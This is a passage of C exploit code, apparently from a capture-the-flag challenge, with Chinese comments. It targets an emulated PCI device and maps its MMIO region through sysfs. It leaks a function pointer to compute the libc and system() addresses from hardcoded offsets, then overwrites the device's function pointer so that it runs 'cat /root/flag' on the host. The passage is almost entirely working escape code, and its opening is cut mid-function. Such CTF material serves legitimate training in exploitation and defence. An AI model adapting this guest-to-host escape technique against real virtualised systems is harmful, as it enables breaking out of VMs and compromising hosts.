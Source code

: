 ```c

    sleep(1);
}

void enc(){
	write_src(0x40100);
	write_cnt(0);
	write_cmd(7);
}

int main(){
	// O_RDWR 读、写打开,O_SYNC每次write都等到物理I/O完成
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0",O_RDWR | O_SYNC);
    // open failed
    if (mmio_fd == -1){
        perror("open mmio"); // perror（）用来将上一个函数发生错误的原因输出到标准设备
        exit(-1);
    }

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED){
    	perror("mmap mmio");
        exit(-1);
    }

    printf("mmio_mem:\t%p\n", mmio_mem);

    userbuf = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (userbuf == MAP_FAILED){
    	perror("mmap userbuf");
        exit(-1);
    }

    mlock(userbuf, 0x1000);
    userbuf_pa = va2pa(userbuf);

    printf("userbuf_va:\t%p\n",userbuf);
    printf("userbuf_pa:\t%p\n",(void *)userbuf_pa);

    read_enc_addr();

    uint64_t leak_enc=*(uint64_t*)userbuf;
    printf("enc_addr:\t%p\n",(void*)leak_enc);

    uint64_t libc_base = leak_enc - 0x283dd0;
    printf("libc_base:\t%p\n",(void*)libc_base);

    uint64_t system_addr = libc_base + 0x1FDB18;
    printf("system_addr:\t%p\n",(void*)system_addr);

    write_system_addr(&system_addr,8);

    char *cat_flag = "cat /root/flag\x00";
    write_cat_addr(cat_flag,strlen(cat_flag));
    enc();
}
```

